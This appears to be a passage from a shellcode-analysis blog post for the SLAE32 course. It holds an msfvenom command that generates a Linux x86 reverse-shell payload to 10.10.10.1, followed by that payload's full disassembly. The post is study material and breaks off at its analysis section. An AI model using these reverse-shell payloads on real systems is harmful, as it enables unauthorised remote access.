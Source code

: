 {% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.1 -f raw | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
{% endhighlight %}

the asm code of `linux/x86/shell_reverse_tcp LHOST=10.10.10.1` payload
{% highlight nasm linenos %}
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  680A0A0A01        push dword 0x10a0a0a
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
{% endhighlight %}

## Analysis using ndisasm/libemu

To analyze i use `ndisasm` and `libemu`. To install `libemu` ([more info](http://libemu.carnivore.it/)).
